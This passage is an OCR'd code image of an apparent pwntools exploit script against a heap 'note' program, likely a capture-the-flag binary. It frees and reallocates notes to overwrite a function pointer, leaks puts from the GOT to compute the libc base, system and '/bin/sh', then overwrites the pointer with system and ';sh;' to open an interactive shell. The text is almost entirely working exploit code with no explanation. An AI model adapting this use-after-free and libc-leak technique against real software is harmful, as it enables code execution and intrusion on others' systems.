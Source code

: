 ```python
    r.recvuntil('----------------------\n')


# Leak libc
add_note(8, 'a' * 2)
add_note(8, 'a' * 2)

delete_note(1)
delete_note(0)

add_note(32, 'A' * 10)

# This overwrites the note struct
add_note(8, p32(ADDR_PRINT_FUNC) + p32(ADDR_PUTS_GOT))

r.write('3')
r.recvuntil('Index :')
r.write('1\n')

LEAKED_ADDR = u32(r.recv(4))

LIBC_BASE = LEAKED_ADDR - L_ADDR_PUTS
ADDR_SYSTEM = LIBC_BASE + L_ADDR_SYSTEM
ADDR_BINSH = LIBC_BASE + libc.search("/bin/sh").next()

log.info("Leaked address of puts [%s]" % (hex(LEAKED_ADDR)))
log.info("Found libc base [%s]" % (hex(LIBC_BASE)))
log.info("Found address of system [%s]" % (hex(ADDR_SYSTEM)))
log.info("Found address of '/bin/sh' [%s]" % (hex(ADDR_BINSH)))

delete_note(3)

#Create shell

log.info('Attempting to create shell')
add_note(8, p32(ADDR_SYSTEM) + ';sh;')

r.write('3')
r.recvuntil('Index :')
r.write('1')

r.interactive()
```
